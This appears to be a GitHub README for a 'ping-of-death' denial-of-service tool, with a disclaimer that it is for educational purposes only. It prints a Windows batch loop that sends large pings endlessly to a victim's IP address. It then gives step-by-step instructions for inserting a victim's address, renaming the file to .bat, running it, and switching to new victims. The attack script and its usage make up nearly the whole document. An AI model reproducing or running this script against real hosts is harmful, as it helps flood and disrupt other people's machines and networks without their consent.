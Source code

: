 # ping-of-death

## Warning I am not responsible for any damage done or accountable for the usage of this software! This is only for educational purposes.

### Download
 - click the releases button and download

### How to use: 

1.) open the dos.txt file it will read:
:loop
ping <IP Address> -l 65500 -w 1 -n 1
goto :loop

2.) rename <IP Address> with the ip address of the victim then save and exit the file

3.) rename the dos.txt file to dos.bat

4.) run the file

* to change victims simply rename the file to dos.txt and change the previous ip address to the next one and rename the file to: dos.bat
